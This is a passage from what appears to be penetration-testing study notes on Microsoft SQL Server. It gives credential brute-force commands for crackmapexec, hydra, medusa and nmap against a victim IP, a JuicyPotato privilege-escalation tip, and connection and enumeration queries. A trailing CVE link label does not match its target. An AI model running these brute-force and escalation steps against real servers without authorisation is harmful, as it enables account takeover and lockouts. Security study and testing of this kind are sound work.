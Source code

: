 **Post-Exploit PrivEsc**

The user running MSSQL server will have the privilege token **SeImpersonatePrivilege** enabled. You will probably be able to escalate to Administrator using this and [JuicyPotato](https://github.com/ohpe/juicy-potato)


### 2.15.1 MSSQL Credential Bruteforcing

```sh
# Be carefull with the number of password in the list, this could lock-out accounts
# Use the NetBIOS name of the machine as domain, if needed
crackmapexec mssql -d DOMAINNAME -u usernames.txt -p passwords.txt $VICTIM_IP
hydra -V -f -L /path/to/usernames.txt –P /path/to/passwords.txt $VICTIM_IP mssql
medusa -h $VICTIM_IP –U /path/to/usernames.txt –P /path/to/passwords.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=usernames.txt,passdb=passwords.txt,ms-sql-brute.brute-windows-accounts $VICTIM_IP
```

More great tips on [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)


### 2.15.2 MSSQL Interaction

**Connecting to the MSSQL server**

From kali, for interactive session:

```sh
# simplest tool for interactive MSSQL session
impacket-mssqlclient USERNAME:PASSWORD@VICTIM_IP -windows-auth
# requires double quotes for xp_cmdshell strings

# alternative option, can use single quotes for xp_cmdshell strings
sqsh -S $VICTIM_IP -U 'DOMAIN\USERNAME' -P PASSWORD [-D DATABASE]
```

From Windows:

```bat
sqlcmd -S SERVER -l 30
sqlcmd -S SERVER -U USERNAME -P PASSWORD -l 30
```

**Useful commands:**

```sql
-- show username
select user_name();
select current_user;  -- alternate way

-- show server version
select @@version;

-- get server name
select @@servername;

-- show list of databases ("master." is optional)
select name from master.sys.databases;
exec sp_databases;  -- alternate way
-- note: built-in databases are master, tempdb, model, and msdb
-- you can exclude them to show only user-created databases like so:
select name from master.sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');

-- use database
use master

-- getting table names from a specific database:
select table_name from somedatabase.information_schema.tables;
```

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744